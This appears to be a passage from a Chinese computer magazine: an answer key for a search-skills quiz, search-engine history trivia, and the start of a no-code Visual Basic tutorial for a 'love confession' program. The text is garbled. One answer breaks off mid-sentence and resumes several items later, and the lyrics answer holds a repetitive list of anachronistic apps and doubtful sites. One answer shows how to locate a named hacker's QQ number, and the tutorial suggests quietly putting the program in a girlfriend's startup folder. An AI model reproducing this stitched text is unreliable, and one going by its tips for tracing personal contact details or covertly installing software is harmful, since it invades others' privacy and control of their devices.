90～100分：你不用怀疑自己的能力和题目的难度了，你就是一个搜索高手，如果你愿意把平时搜索的心得和技巧发来与大家分享，我们很乐意为你支付稿费。

## 标准答案及答案分析：

1. 答案：B
答案分析：搜索关键词“眼睛有 条肌肉 控制”马上可以找到答案。

2. 答案：钱天白
答案分析：这道题可以通过很多关键词来找出答案，比较简单易行的方法是：
①搜索关键词：“中国互联网创始人”
②搜索关键词：“穿越长城 走向世界”
当然，最快的方法是将以上两个关键词综合：“中国互联网创始人 穿越长城 走向世界”

3. 答案：5万
答案分析：很多朋友一上来用“大足石刻 造像 尊”搜索，发现答案是10万，认为答案错了。请再仔细看看，“摩崖造像”跟“造像”是一回事吗？肯定不是，所以在搜索时关键词的选取上并不是越简越好，一定要看清题意。所以正确的关键词为“大足石刻 摩崖造像75处 雕像 尊”。

4. 答案：AD
答案分析：这道题主要是让大家学会怎样使用关键词，怎样根据问题的意思去变通，而不是形成思维定势，局限在已知的关键词上。显然，给出的四个选项最终都能找到答案，但怎么才能最快地找到答案才是我们学习使用搜索引擎的目的所在。朋友们不妨把四个选项都试一下就知道答案了。值得一提的是，选项D所使用的关键词已经突破了题目束缚，并能很快找到答案。建议大家在做题时多想想与问题相关的关键词，而不要受到局限。

5. 答案：周苏音
答案分析：很多朋友一看完，马上用关键词“种引牵牛上短篱 画家”或“芭蕉过雨绿生凉 画家”搜索，遗憾的是这样并不能找到答案。于是，又开始用“加拿大 华裔 画家”查找，没想到加拿大的华裔画家那么多，只好一个一个去试，其实最准确的关键词是“上海 个人画展 加拿大 华裔”，我们就可以找到一个“16岁的加拿大籍华裔女孩周苏音在上海美术馆举办个人画展”的信息，其实到这步我们算是找到答案了，但走到了这步依然没有任何一个人敢马上说自己是正确的。那我们就来看看“周苏音”这个人吧，输入关键词“周苏音 作品”找到了一个相当于她的个人主页“苏音梦华”，进去“作品欣赏”找到了她的两幅作品，确定了答案。

6. 答案：尹培强
答案分析：这道题很多人一上来就搜索“空中第三梯队 队长”，结果无功而返。那我们不妨把这句话分开，先看看空中第三梯队是个什么飞机队伍吧。搜索关键词“国庆五十周年 空中第三梯队”，找到结果：“加受油机梯队”，接下来看看加受油机梯队的队长是谁吧。搜索关键词“加受油机梯队 队长”找到答案，有些朋友也许会掉进我们设下的陷阱除了“尹培强”还找到“谢凤良”这个人，其实他只是试飞第一人，其实如果你对答案不确定时可以再搜索一次，比方搜索“尹培强 队长”或是“谢凤良 队长”看看是哪个。

7. 答案：2780
答案分析：这道题看起来很简单，可以说题目就这么几个字：1996年时北京有多少所小学？很多朋友马上使用“1996年 北京 所 小学”之类的关键词进行查找，可惜结果有点出乎意料。又用“1996年 北京 小学”加一些关键词尝试，发现还是不能找到结果。可能大家的思维都局限前面的题目上，希望直接在搜索结果页里就看到答案。既然如此，我们不妨来个思维发散，先不管它1996年了，这样最先想到的就是关键词“北京市小学 学校数”，依然找不到答案。其实我们也可以考虑1996年，但考虑与其相关的内容看看，比方“1996年 北京 小学 升学率”结果也找不到答案。再仔细看题，“北京市教育资料”？加上试试吧！结果什么都没找到，却看到了“北京市教育委员会”，这里面可能有，进去一看，依旧网页茫茫。别急，我们还有语法没用呢！去Google，搜索“1996年 北京 小学 所 site:bjedu.gov.cn”，哈哈，一下就找到了。

8. 答案：21509
答案分析：题目中的问题其实并不是一个，而是两个，并且是环环相扣的关系：①2001年五一期间中美黑客大战中国的哪个黑客组织起主导作用？②该组织负责人的QQ是多少？掌握了这两个主次关系，我们就一步步去搜索。搜索关键词“2001 中美黑客大战 主要组织”找到这次大战攻击美国站点最多的黑客组织“中国红客联盟”，并看到文章中提到站长“Lion”。题目一下简化了很多，变成了“中国红客联盟站长Lion的QQ是多少？”这就简单了，运用语法先找找红客联盟的主站“Lion QQ site:cnhonker.com”，没想到找到了国内知名黑客的一个“黑名单”，当然，答案也在其中。也可以搜索“中国红客联盟 Lion QQ 简介”或是“Lion oicq 红客联盟创始人”迅速找到答案。

9. 答案：方法很简单，用Google的“intitle：”命令就可以了。
答案分析：上网时间长了大家的收藏夹里都会收集一些网站吧，而且这些网站一定都是精品，因为没人会收集垃圾站。想过享用别人的收藏夹吗？用Google能轻松找到别人整理好的收藏品。只要关键词使用“bookmarks intitle：bookmarks”，“intitle：”为Google搜索语法规定标题栏出现的内容，含义是找在网页文字和标题栏都有## 10.答案:它是名称为Win32.Troj.mir2WLHA的木马

把“Wuamgdp.exe”作为关键词直接放到百度的搜索框中进行查找。百度搜索结果中发现“北京信息安全中心毒霸联合发布6.10热门病毒”，读过文章，我们知道这是一种病毒，名称是Win32.Troj.mir2WLHA，其传染条件和解决方案全部都有了。这样就可以根据文章把病毒“请”出去。

## 11.答案:Room 403, 37 Shifan Residential Quarter, Baoshan District, Shanghai.

怎么利用搜索引擎来找到你住址的英文版呢？下面有几种常用的方法：

- ①用百度搜索，关键词用：“地址翻译”，结果找到：在线地址翻译 http://www.chinatanyi.com/b_c_dict/add_l.asp；中文地址翻译原则 http://www.nlt.edu.cn/nt/sj/campus/contents/09.html。如果我的地址包括“信箱”、“分箱”，这个怎么翻译呢？再用关键词：“地址翻译 信箱”搜索，结果没有用，那么继续下一步。
- ②在金山词霸在线 http://www.iciba.net 搜索关键词：“信箱”，出现的内容不少，但哪一条可用呢，再用百度搜索引擎验证。
- ③分别使用在金山词霸在线找到的几个信箱翻译作为关键词：“信箱 分箱 mailbox”、“信箱 分箱 letter box”、“信箱 分箱 box”，于是找到众多实例。小结：查某些资料的对应英文，可以先确定跟资料有关的“很可能出现的英文”，然后再将两者一起搜索。

## 12.答案:D

答案分析:这题最好的关键词是“SUV 缩写”，马上就能找到答案。社会迅猛发展的标志之一，就是新词汇的层出不穷，为了交流方便，人们往往使用“缩写”。下面就跟大家详细谈谈英文缩写构成的“缩写”该如何查找。缩写可分为两类：一是其全称的英文名称的首字母的组合，像PRC、CIA；另一类是拼音的首字母的组合，如MM。搜索技巧最根本的就是提炼关键词，调动全部知识和经验，挑选关键词。搜索过程中，根据结果，不断思考，不断观察，不断增添、删除、更换关键词，直到得到满意的结果。下面以百度搜索为例来说明。

- ①根据“缩写”出现的情景。以下把要搜索的“缩写”称为S。每个S出现时，都有一定环境。把“环境”提炼成“合适的关键词”，和S一起搜索。式子为“S 合适的关键词”。举个简单例子：有些汽车上有“JAC”三个字母，想知道是什么意思，用“JAC 汽车”即可。
- ②用表示含义的词。人们在介绍解释某种事物时，常常用特定的表示含义的词：“定义”、“概念”、“含义”、“全称”、“缩写”、“简称”等。用“MBA 全称”查找，第一项就有“MBA全称 Master of Business Administration”。
- ③“是”和“指”妙处多。“定义”和“概念”这些词比较正式，用的更多的是“S是……”、“S指……”、“……是S”、“……指S”。看报纸见到“FPS游戏”，不知道什么意思。用“fps 是 游戏”搜索，马上知道是“第一人称射击游戏(First Person ShooterGame)”，还有一个意思“frame per second 帧率”。
- ④用一句话来搜索。结合以上几点，用一句话来搜。“什么是S”、“S是什么”、“S是什么意思”这类提问的句子很有用处。因为人们一般都这样问。想知道“JS”的意思，“js 是什么”就可以搜到它是奸商(jianshang)的缩写。
- ⑤词典搜索。太新潮的词可能找不到，但老资格的没问题。金山的词霸搜索http://cb.kingsoft.com/ 还是不错的。查“MPA”，直接输入即可，第一项就是“Master of Public Administration 公共管理硕士”。
- ⑥最高的高招。在浏览器的地址栏中输入http://labs.google.com/glossary，直接查就是了，而且这只是Google提供的一项普通服务而已。

“bookmarks”这个词的网页，这样就能找出好心为大家整理的收藏夹了。因为收藏夹用IE默认导出文件就是bookmarks.htm，后来发现很多人把自己的收藏夹公布到网上，而且都没修改文件名，利用这一点，查某一类的资源就可以用这样的关键词了：论坛 bookmarks intitle:bookmarks 书 bookmarks intitle:bookmarks ...... 这样比用搜索引擎搜索论坛和看分类目录方便许多，绝对是海站的极品方法！

## 13.答案:ABCD

答案分析:大家在搜索LOGO时可以采取以上四种方法都可以收到很好的效果。现在各大搜索引擎都提供有专门的搜图服务，但想要找到自己需要的图片还是如大海捞针。其实只要在搜图中运用适当技巧，可以让你更快找到需要的图片。

- ①在 http://image.baidu.com 的搜索框中输入关键词后，可以选择“图片”来搜索普通图片，选择“新闻图片”来搜索新闻图片并阅读相关新闻，或选择“彩信图片”搜索彩信图片并发送彩信。搜索普通图片、彩信图片后，你还可以按图片类型(“彩信图片”、“大图片”、“壁纸800×600”等)和图片格式(BMP、JPG、PNG、GIF)进一步筛选出自己想要的图片。
- ②你还可以用“关键词 壁纸(或墙纸)”这样的方式直接查询自己想要的图片，如“张韶涵 壁纸”。如果要搜索电影海报的图片，则可以输入“电影名称 海报”，如“天下无贼 海报”、“功夫 海报”。如果要找某偶像照片或找某历史人物的图片资料，只要在图片搜索中输入他或她的名字即可。需要提醒你的是，在搜索外国明星如“奥黛丽·赫本”时，请直接用“奥黛丽 赫本”来进行搜索。
- ③一搜的图片搜索中有一项很人性化的功能：“翻译为英文后搜索”。这对英语不太好的网友有很大帮助。比如搜索“苹果”，翻译后找到的图片数量是翻译为英文前的一倍以上。除通过以上的图片搜索外，要想找到更多图片还可以借助网页搜索。网络上图片的一个主要来源就是扫描图(简称扫图)，这些图片质量都很好，用关键词“扫图”来找，可以得到很多高质量的图片站点！
- ④利用找收藏夹的方法找到更多图片站，关键词设定为：“图库 bookmarks intitle:bookmarks”。
- ⑤图片可不是单单网站上才有，别忘了论坛，用关键词“美女贴图 inurl:bbs”来找吧，“inurl:bbs”规定返回的网址中必须有“bbs”关键字，这样就限定了返回结果是论坛。另外如果加入：“『』”则会有更好效果，不过只有百度支持，如：“『清纯唯美』”、“『套图』”等。目前比较出色的中文图片搜索引擎: Google 图片搜索:http://images.google.com 一搜图片搜索:http://image.yisou.com 百度图片搜索:http://image.baidu.com 中搜图片搜索:http://img.zhongsou.com

## 小知识

## 图解Google查询全过程

Google 查询的全过程通常不超过半秒时间，但在这短短的时间内需要完成多个步骤，然后才能将搜索结果交付给搜索信息的用户。








- 1.网络服务器将查询发送到索引服务器。索引服务器所包含的内容与书本末尾的索引目录相似，即说明哪些网页包含与查询匹配的文字。
- 2.查询传输到文档服务器，由后者实际检索所存储的文档。然后，生成描述每个搜索结果的摘录。
- 3.瞬间返回用户需要的搜索结果。

## 14.这是歌手张韶涵的《寓言》里的一句歌词，她最新的专辑叫《欧若拉》。对于找歌和歌词是喜欢音乐的朋友经常会遇到的问题，有多少美妙的歌曲从耳边流过，在心底泛起，但失落于岁月中，怎么寻回它们呢？

对于找歌和歌词是喜欢音乐的朋友经常会遇到的问题，有多少美妙的歌曲从耳边流过，在心底泛起，但失落于岁月中，怎么寻回它们呢？

- ①利用搜索引擎的MP3搜索。以百度MP3搜索 http://mp3.baidu.com 为例，小时候看过一部动画片《蓝精灵》，想重温她的歌声，可以直接在搜索框内输入“蓝精灵”，点击百度搜索，就可以找到所有相关的歌曲。如果要找某首歌的歌词，比如张韶涵的《寓言》，可以在搜索框内输入“张韶涵 寓言 歌词”，点击百度搜索，就可以找到这首歌曲的歌词。
- ②利用歌词网站。有很多专门的歌词网站，比如“歌词快车”（http://www.lyrics.cn）、“搜歌词”（http://www.sogeci.com）等，这些网站提供了大量的歌词资源，你可以在这些网站上搜索你想找的歌词。
- ③利用音乐播放软件。比如QQ音乐、网易云音乐、酷狗音乐等，这些软件不仅提供了音乐播放功能，还提供了歌词搜索功能，你可以在这些软件上搜索你想找的歌词。
- ④利用视频网站。比如优酷、土豆、B站等，这些网站上有很多音乐视频，你可以通过这些视频找到你想找的歌词。
- ⑤利用搜索引擎的综合搜索。比如百度、Google等，你可以在这些搜索引擎上输入歌曲名、歌手名等关键词，搜索到相关的歌词。
- ⑥利用社交媒体。比如微博、微信等，你可以在这些社交媒体上搜索你想找的歌词，或者向朋友求助。
- ⑦利用音乐论坛。比如“音乐在线”（http://www.muzionline.com）、“音乐分享”（http://www.muzishare.com）等，这些论坛上有很多音乐爱好者分享的歌词资源，你可以在这些论坛上搜索你想找的歌词。
- ⑧利用音乐APP。比如网易云音乐、QQ音乐、酷狗音乐等，这些APP不仅提供了音乐播放功能，还提供了歌词搜索功能，你可以在这些APP上搜索你想找的歌词。

如果搜索歌词，就可以找到。如果不记得歌名，也不要紧：知道歌手，可以直接输入其名字，或者点击“歌词搜索”，一步步回忆；知道歌词，把歌词输入，点击“歌词搜索”，马上得到其详细信息。其他的搜索引擎用法类似。推荐：百度mp3搜索 http://mp3.baidu.com；一搜音乐搜索 http://music.yisou.com；中搜mp3搜索 http://mp3.zhongsou.com；sogua娱乐搜索 http://www.sogua.com/search

- ① 百度mp3搜索 http://mp3.baidu.com；一搜音乐搜索 http://music.yisou.com；中搜mp3搜索 http://mp3.zhongsou.com；sogua娱乐搜索 http://www.sogua.com/search
- ② 用P2P软件，P2P技术的发展，为人们在搜索引擎之外提供了又一条捷径。大家彼此把自己的东西贡献出来，既奉献又索取，利人利己，这是多么伟大的共享精神。想想成千上万的合作者，力量有多大，肯定有你要的。这里强烈推荐Kugoo，用法很简单，直接把歌名或歌手输入搜索框，点击search即可。到目前为止，它还从来没让我失望过。另外有一个策略，“按用户的账号查找”，找到一首喜欢的歌后，再进一步把拥有这歌的账号作为搜索词，输入到“按用户的账号查找”后的搜索框，search理由很简单，一个人往往收藏相近的歌曲，同一个歌手的，同一类性质的。推荐：Kugoo http://www.kugoo.com；Poco http://www.pocosite.com/company/download.php
- ③ FTP搜索。FTP有大量的文件，有时让你“柳暗花明又一村”。推荐：北大大天网 http://bingle.pku.edu.cn；星空搜索 http://sheenk.com/ftpsearch/search.html
- ④ 软件搜索。现在不少软件有音乐搜索的功能，如“网际飞音”（下载地址 http://www.skycn.com/soft/7824.html）。
- ⑤ 问人。到人气旺的音乐论坛，发贴问，如Kugoo论坛 http://www.kugoo.com/kb。

重要提示 去年底“高法”和“高检”联合颁布了关于网络盗版的司法解释（简称《解释》），《解释》中提到不但提供音乐下载可能要承担刑事责任，而且从网上下载过多音乐同样可能面临刑事追究。根据《解释》，定罪量刑的标准定在1000份。对于下载提供方，如果累计有1000人次以上进行下载，可能就跨越了犯罪的门槛。同样，对于乐迷，下载超过1000首曲目，也可能被追究刑事责任。

那又该怎样搜索歌词呢？如果知道这首歌的歌名，可以用歌名加上“歌词”这个关键词搜索。一般都能得到包含这首歌歌词的网页。如果不知道这首歌的名字，也可以凭借里面的一句完整唱词，尽量准确无误地输入搜索引擎，精确匹配搜索，就能在搜索页面中得到它的歌名，再加上“歌词”二字再次搜索，多半能得到这首歌的歌词了。其实还有更简单的办法。在百度的音乐搜索中包含有歌词搜索，是非常不错的歌词搜索引擎，它预先收录了大量歌词，这些歌词来源于众多热心网友的手工抄录，然后上传到百度服务器，因此，其歌词库一直在不断增大。在这里可以使用歌曲名称或歌词中的某一两句，甚至是记忆里面残存的零散的几个字词进行搜索。举个例子，只记得八楼的什么汽车，通过搜索“八楼-汽车”，就可以得到《2002年的第一场雪》这首歌的歌词。当然，由于网友上传的缘由，不能保证歌词完全正确，有时还会有几个不同版本，需要自己加以识别和修正。如果百度音乐搜索没有包含这首歌曲的歌词，也可以去一搜音乐搜索碰碰运气，二者搜索歌词的能力可以说不相上下。对于英文歌曲，百度和一搜常常不包含这些歌词。那么可以去一些好的英文歌词搜索引擎中搜索，这里推荐两个歌词搜索引擎：http://lyrics.straweb.com http://www.lyricsstyle.com

## 最早的搜索引擎技术

现在公认的最早的现代意义上的搜索引擎技术是1990年由蒙特利尔大学Alan Emtage发明的用于查询大量的散布在各个FTP主机中的文件的Archie。Archie工作原理与现在的搜索引擎很接近，它依靠脚本程序自动搜索网上的文件，然后对有关信息进行索引，供使用者以一定的表达式进行检索。



## 最早的搜索引擎

最早现代意义的搜索引擎出现于1994年7月。当时John Leavitt的蜘蛛程序接入到其索引程序中，创建了大家现在熟知的Lycos。同年4月，斯坦福大学的两名博士生，David Filo和美籍华人杨致远共同创办了超级目录索引Yahoo，并成功地使搜索引擎的概念深入人心。从此搜索引擎进入了高速发展时期。目前，互联网上有名有姓的搜索引擎已达数万家，其检索的信息量也与从前不可同日而语。



## Google 的创始

Larry Page是密西根安娜堡大学的博士生，拥有工科学士学位。受到担任计算机系教授的父亲启发，佩吉早在1979年就开始使用计算机。他的工作经验包括在华盛顿的Advanced Management Systems公司及伊利诺斯州的CogitTek公司从事软件开发工作。Sergey Brin出生于莫斯科，是马里兰大学本校的荣誉毕业生，拥有数学专业和计算机专业的理学士学位。Sergey还是美国国家科学基金会的奖学金得主。1995年他们在斯坦福大学读研究生时第一次相遇，1996年初，他们开始研究一个叫做BackRub具有分析指向给定网站的链接的能力的搜索技术，此后几年中，他们进一步发展了这项技术，现在它以PageRank为世人所知，而且已经成为了Google搜索的基础。1998年当他们还在斯坦福大学计算机专业的研究生时，共同创建了Google公司。Google是由英文单词“googol”变化而来，“googol”是Milton Sirotta创造的一个词，表示1后边带有100个零的数字。这个词是由美国数学家Edward Kasner的外甥Milton Sirotta创造的，随后通过Kasner和James Newman合著的“Mathematics and the Imagination”一书广为流传。佩吉和布林使用这个词代表Google公司征服网上无穷无尽资料的雄心。



## 百度的创始

李彦宏，1991年毕业于北京大学信息管理专业，随后赴美国布法罗纽约州立大学完成计算机科学硕士学位。在美国的8年间，李彦宏先后担任了道·琼斯公司高级顾问，《华尔街日报》网络版实时金融信息系统设计者，以及在国际知名互联网企业－INFOSEEK资深工程师，他为道琼斯公司设计的实时金融系统，迄今仍被《华尔街日报》的网络版等各大公司的网站广泛应用。他先创建了ESP技术，并将它成功的应用于INFOSEEK/GO.COM的搜索引擎中。GO.COM的图像搜索引擎是他的另一项极其具有应用价值的技术创新。1999年底，李彦宏携风险投资回国与好友徐勇共同创建百度网络技术有限公司。



## 中国搜索的创始

中国搜索（原慧聪搜索）创始人陈沛16岁进入浙江大学数学系，1987～1988年在北京大学进修人工智能课程，1994年开始中文全文检索技术的研究，1995年率先将人工智能技术引进中文全文检索领域，推出智能中文全文检索系统I-Search，1997年发明中文全文检索与大型数据库无缝对接技术；1998年与IBM合作完成国内第一套中文全文检索与大型数据库无缝对接产品I-Search for DB2，1999年提出“后门户时代”信息技术和服务理念，并开始致力于基于Internet的信息获取、筛选、传播等技术的研究。2003年8月20日推出第三代智能搜索引擎，先后被新浪、搜狐、网易、TOM、中国网、263及中国搜索联盟1400家网站所采用，2003年12月23日成立中国搜索并出任CEO，推出中国搜索新闻中心，2004年2月提出个人门户理念，并推出个人门户系列产品。



## 搜索引擎的原理

搜索引擎并不真正搜索互联网，它搜索的实际上是预先整理好的网页索引数据库。真正意义上的搜索引擎，通常指的是收集了因特网上几千万到几十亿个网页并对网页中的每一个词（即关键词）进行索引，建立索引数据库的全文搜索引擎。当用户查找某个关键词的时候，所有在页面内容中包含了该关键词的网页都将作为搜索结果被搜出来。在经过复杂的算法进行排序后，这些结果将按照与搜索关键词的相关度高低，依次排列。搜索引擎的原理，可以看作三步：从互联网上抓取网页→建立索引数据库→在索引数据库中搜索排序。大家可以到http://www.sowang.com/yyyl.htm看到更详细的介绍。



## 搭积木的乐趣 六小时玩转VB

□北京 牙签 阿拱

你想学会编程让自己比别人多一份工作的机会吗？你想用最快的速度掌握一门语言并开始实际运用吗？那么，选择VB吧！因为，给你六个小时，温柔的VB就可以让你随心把玩。

## Visual Basic的发展历程

Visual Basic(以下简称VB)来自它的老父亲Basic，我们由它说起。

Basic(Beginner's All-purpose Symbolic Instruction Code)是“初学者通用指令代码”的缩写，它是由美国新罕布什尔州达特茅斯学院John Kemeny和Thomas Kurtz两位教授创立的。最早的版本可以追溯到1965年，1971年形成了标准文本，其后又做了多次修改和扩充并发展出许多其他Basic语言，如：QBasic、True Basic和现在的VB等。

由于Basic短小精悍、易学易用，是专业和业余编程人员的首选入门语言，并且被广泛用作教学语言。IBM和Microsoft合作后，Basic的推广更是一发不可收拾，以至于现在每台电脑中都找得到Basic的影子(电脑中的ROM中都保存着固化的Basic解释程序)。

很多知名的IT界人士都是Basic的编程专家，其中最著名的莫过于比尔·盖茨了，他经常亲自参与VB各个版本的设计开发工作，这足以证明他对VB的重视和青睐。

微软是在1991年推出VB 1.0的，许多专家把VB的出现当做软件开发史上一个具有划时代意义的事件。其实，VB 1.0的功能相对今天来说实在太弱了。但在当时，它是第一个“可视”的编程软件。VB使得编制带有窗口界面的Windows应用程序易如反掌，用户不必再考虑过多可视化实现方面的细节，而可以专心编写程序的主算法。借助Basic打下的坚实基础，VB很快在全世界范围内，特别是在我国流传开来。微软也不失时机地在四年内接连推出VB的2.0、3.0、4.0三个版本。并且从VB 3.0开始，微软将Access的数据库驱动集成到了VB中，这使得VB的数据库编程能力大大提高。从VB 4.0开始，VB也引入了面向对象的程序设计思想。VB功能强大，学习简单。而且，它还引入了“控件”的概念，使得大量已经编好的VB程序可以被我们直接拿来使用。盖茨曾自豪地说“全世界所有基于Windows的应用程序有80%都是用VB编写的。”如今，运用最广泛的是成熟的VB 6.0，本文的例程都以它为范本，而VB最新版本为VB.NET，其后续版本VB.NET 2005也已推出测试版。

## 一小时指指点点 编织真情告白

什么是搭积木的乐趣？立刻让你体验。在安装好VB后，你可以不添加任何一句代码，只需点点鼠标，改改设置，就能制作出一个像模像样的程序。

我们这样设定，程序运行后会显现出一副你和你女友的合影，然后背景放着她最爱的歌曲，照片的下方写着你的真情告白。你将它悄悄放到你女友电脑的启动组里，在她下次打开电脑时，你的极具杀伤力的爱情小病毒一定会将她击中。

我们马上来看，编程到底有多简单！启动VB后出现“新建工程”的选择菜单，单击“标准EXE”后确定，出现如图1界面，这就是我们今天要表演的舞台。现在就让我们马上行动，体验怎么在一个程序开发的软件里像用Photoshop一般为你的GF生产快乐的。

第一步：在工具箱里双击Image图标，会在Form1窗口里出现带有8个方点的矩形(见图2)，你可以通过这8个点改变它的大小，这个东东是VB中专门负责显示图片的。

小提示
你也可以单击Image图标，然后用鼠标左键在Form1窗口中拖曳出它的形状。

第二步：单击带有8个点的矩形，在右侧属性栏里，找到“Picture”一项，点击它右侧的三个圆点的图标，弹出“加载图片窗口”，这里不用我教了吧，找一幅你和女友的靓照，选中后确定。这时Form1窗口里就会出现你们的照片，利用那8个点调整图片的大小和位置到你满意为止。

第三步：双击工具箱里的Label图标，在Form1的图片上会出现含有“Label1”字样的文本框(见图3)。

第四步：在保持Label1被选中的状态时，再到属性窗口(按F4可立刻转到)找到“Caption”一项，将它原来的“Label1”字样改为你想对女友说的话(见图4)。修改后你会发现Form1窗口中的“Label1”字样变为了你的真情告白。

第五步：接着上步在属性框中找到“Font”一项，这里可以设定告白的字体，当然要选漂亮的喽(见图5)！再找“backstyle”一项，将原来的“0-Opaque”换为“1-Transparent”，你会发现文字的背景变成了透明；找到“AutoSize”项将“False”改为“True”，这样可以保证你写的文字在Form中全部显现出来(见图6)。

第六步：我们该营造气氛了，加上你们最爱的音乐吧。在工具箱中点击鼠标右键选中“部件”，在弹出的“部件”窗口“控件”选项卡里找“Windows Media Player”，选中它并确定(见图7)。这时你会发现工具箱的最下方多了一个小梯形，双击它在Form1窗口里会出现一个大方块，这是VB中专门负责播放多媒体的控件。



左面是VB的工具箱，里面的各种图标是我们开发程序时经常用到的标准控件。正中间是窗体编辑器和代码编写器。我们程序设计大都是在它们上面进行的。右上方是工程资源管理器，它能让我们对整个工程进行整体性的管理。右中处的是属性窗口，陈列着程序中所涉及的各种窗体和控件的属性。右下方是窗体布局区，它能够调节程序运行时窗体在屏幕中的位置。











这时你会发现工具箱中多出了“Windows Media Player”图标，双击它，Form1 里面就会出现“Windows Media Player”界面(见图8)。





小提示
如果觉得“Windows Media Player”的出现很碍眼，可以用鼠标右键点击它并选“置后”，它就消失了。你可以在刚才添加的各种部件上通过“置前”和“置后”感受它们的变化。

第七步：保持“Windows Media Player”选中，转到它的属性窗口，找到“URL”一项输入你选的恋曲所在位置(见图9)，如果歌曲不在当前电脑里，可以填入歌曲的网址，如“http://www.tailenet.com/files/Creativity/00/00/02/00000281.wma”，但你要保证链接有效且你女友打开程序时是在线的。



小提示
当你把编好的程序拷入MM的电脑时，要考虑一下音乐文件在她电脑中的什么位置，不要让你的程序在你的电脑中能放声歌唱，到了MM那里就哑了。如果能确定你的程序和音乐文件放在同一个目录下，可以在“URL”中直接写上文件名而不用指定路径。

第八步：接着上面找到“Visible”项将它设为“False”，让“Windows Media Player”在你的程序的界面中不可见，这也是为美观着想。

第九步：在属性窗口顶部的下拉菜单中，你会发现前面加入的内容都在这里，可以选中之后直接修改属性，不妨在这里随便改改某些选项的属性，看看有什么变化。在这里选中“Form1 Form”将它底下的“Caption”项内容改为“我的真情告白！”，你可以发现Form1窗口的顶部发生了变化。

第十步：在主菜单中点击“工程→工程1属性”，在弹出的窗口中将“工程名称”项改为你的小程序要起的名字，如“真情告白”。

第十一步：到这里这个真爱告白的程序就基本完成了。你可以按下F5键测试一下，看看自己的甜言蜜语和美妙音乐是否能打动自己，也顺便找找有没有任何错误提示和不满意的地方，再做适当调整。我们没有动用VB的一行代码，就完成了很有趣的程序，这就是VB的魅力(如图10)。



小提示
记得单击主菜单上“文件→保存工程”将你的大作保存到一个目录当中，以备以后修改。有两个文件需要保存，一个是名叫“工程1.vbp”的项目文件，另一个是名叫“Form1.frm”的窗体文件。一个VB程序至少包含这两个文件，即项目文件vbp和窗体文件frm，缺一不可。

第十二步：最后一步是生成可执行文件，点击“文件→生成工程1.exe”，在弹出的窗口中指定目录和文件名，点击“确定”，便生成了你的“真情告白.exe”，到此真情告白大功告成，剩下怎么取悦你的GF就看你的本事了。

Just do it
刚才的步骤教你怎么编制一个显示图像、声音和文字的程序，你学会了吗？经你的操作做出来的真情告白是什么样子的呢？不妨打包发给CFan，让我们分享一下你是怎么表达爱意的，同时你也可以把你操作中遇到的问题附在信中。

## 两小时上下搜索 了解VB编程

观看上面程序的制作过程，你会遇到VB开发集成环境的六个主要部件：

| 部件名称 | 描述 |
| :--- | :--- |
| 工程资源管理器 | 对整个工程进行整体性的管理。 |
| 属性框 | 陈列着程序中所涉及的各种窗体和控件的属性。 |
| 窗体布局区 | 调节程序运行时窗体在屏幕中的位置。 |
| 工具箱 | 里面的各种图标是开发程序时经常用到的标准控件。 |
| 窗体编辑器(对象窗口) | 程序设计大都是在它们上面进行的。 |
| 代码编辑器(代码窗口) | 程序设计大都是在它们上面进行的。 |

从我们前面制作的真情告白程序的过程可以看出，编VB程序首先要创建一个良好的可视化界面。而每个程序界面都是由窗体(Form)和一些必要的控件元素(Control)构成的。由于VB属于面向对象编程，所以我们一般将窗体与控件都称为对象(见图11)。



### 1. 学VB从窗体开始

在介绍VB界面设计知识之前，先让你了解一下窗体的三个基本概念:对象的属性、方法和事件。

- 属性:指对象的大小、颜色、方位等一系列外观或内部构造的特征。
- 方法:指对象所进行的操作。
- 事件:指对象对外部条件的响应。

Windows与DOS最显著的区别就是其拥有一个为用户所能接受的图形界面。在这个可视化的图形界面中，用户能方便地使用多个程序，而这一切就像在针对一个个窗口进行操作(见图12)。



在Windows下窗体几乎是每个程序的必要部分。所以我们用VB编程，设计程序界面的第一步要考虑的就是程序窗体。让我们看几个不同程序的窗体。刚才我们所看到三个窗体，大小、颜色、风格各不相同，而它们都能在VB中得以实现。

当我们刚启动一个VB中的标准EXE程序后，窗体设计器中会出现一个默认窗体。可以发现，它的外观大致与记事本窗口一样，其窗体右上角有三个按钮，分别表示最大化、最小化和关闭。

在左上角有一个图标，单击它会弹出一个控制菜单。你肯定对这个窗体再熟悉不过了。

再来看看图13这个窗体，它只有关闭按钮而没有最大化、最小化按钮以及控制菜单。要做这种窗体，只需将属性窗口BorderStyle的值改为4。



BorderStyle的作用
是设置对象的边框样式，对于窗体共有六种样式。

再看图14这个窗体，只有标题栏，而无最大化、最小化、关闭按钮及控制菜单，我们可以查看一下它现在的ControlBox属性。它的值为False。这个ControlBox属性表示在程序运行时窗体是否显示控制菜单栏。



让我们将它的属性改为True看看。此时，窗体的标题栏已大不相同了，像图15这个没有标题栏的窗体，其BorderStyle的值为0。



明白了吧，原来改变属性值后，窗体的外观会起变化。还不止是外观呢，属性还牵涉到窗体的一些其他性质，它们都在属性窗口中排列。属性窗口的下方有针对每一种属性的中文解释，使你能很方便地掌握，有空一定要试试看。

Just do it
现在，我们列举一些窗体的常用属性，请你对它们先进行一下感性认识。名称是窗体的标识名，代码中称它为Name。下面是最常用的一些窗体属性，请你试着在VB中改变它们的值，看看有哪些变化。

- BackColor:设置窗体背景颜色。
- BorderStyle:设置窗体的边框风格。
- Caption:设置窗体标题栏上的文字。
- Enabled:决定运行时窗体是否响应用户事件。在程序运行时可以看到改变Enabled属性的效果。当Enabled被设为False，该窗体将变得无效。
- Height:设置窗体的高度。
- Width:设置窗体的宽度。
- Left:设置程序运行时窗体的水平位置。
- Top:设置程序运行时窗体的垂直位置。
- Visible:设置程序运行时窗体是否可见。当Visible为False时，窗体是不可见的。将值改为True，运行时窗体就是可见的了。
- WindowsState:设置程序运行中窗体的最小化、最大化和原形这三种状态。
- Icon:设置窗体标题栏上的图标。
- Picture:给窗体配上漂亮的位图。

小提示:窗体的Name和Caption属性虽然缺省值相同，但实际意义却不一样。Caption指的窗体标题栏上的文字，Name指这个窗体的对象名，千万不能混淆。

### 2. 事件导致一切

每一个对象都会有它自己的动作，如用鼠标点一下、用键盘按一下、用鼠标光标滑过等动作，这些动作就称为事件。用另外一种说法来说，事件就是该对象正在执行的动作(正在发生的行为)。

拿人来说，吃饭就是一个事件、K歌也是一个事件、被人扁当然也是一个事件、听到声音也是事件……举也举不完。那如何在VB的事件中加入程序代码让事件开动呢？

